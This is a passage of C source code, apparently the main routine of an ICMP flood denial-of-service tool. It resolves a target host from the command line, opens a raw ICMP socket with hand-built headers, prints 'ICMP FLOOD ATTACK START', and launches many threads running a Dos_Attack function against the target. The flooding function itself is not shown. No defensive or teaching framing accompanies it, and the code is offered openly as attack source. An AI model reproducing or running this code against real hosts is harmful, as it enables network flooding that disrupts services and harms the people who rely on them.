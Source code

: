 ```

    protocol = getprotobyname(PROTO_NAME);
    if(protocol == NULL)
    {
        printf("Fail to getprotobyname!\n");
        return -1;
    }

    PROTO_ICMP = protocol->p_proto;

    dest = inet_addr(argv[1]);

    if(dest == INADDR_NONE)
    {
        host = gethostbyname(argv[1]);
        if(host == NULL)
        {
            printf("Invalid IP or Domain name!\n");
            return -1;
        }
        memcpy((char*)&dest, host->h_addr, host->h_length);

    }

    rawsock = socket(AF_INET, SOCK_RAW, PROTO_ICMP);
    if(rawsock < 0)
    {
        printf("Fait to create socket!\n");
        return -1;
    }

    setsockopt(rawsock, SOL_IP, IP_HDRINCL, "1", sizeof("1"));

    printf("ICMP FLOOD ATTACK START\n");

    for(i=0;i<THREAD_MAX_NUM;i++)
    {
        err = pthread_create(&(attack_thread[i]), NULL, (void*)Dos_Attack, NULL);
        if(err)
        {
            printf("Fail to create thread, err %d, thread id : %d\n",err, attack_thread[i]);            
        }
    }

    for(i=0;i<THREAD_MAX_NUM;i++)
    {
        pthread_join(attack_thread[i], NULL);   //等待线程结束
    }

    printf("ICMP ATTACK FINISHI!\n");

    close(rawsock);

    return 0;
}
 

 ```
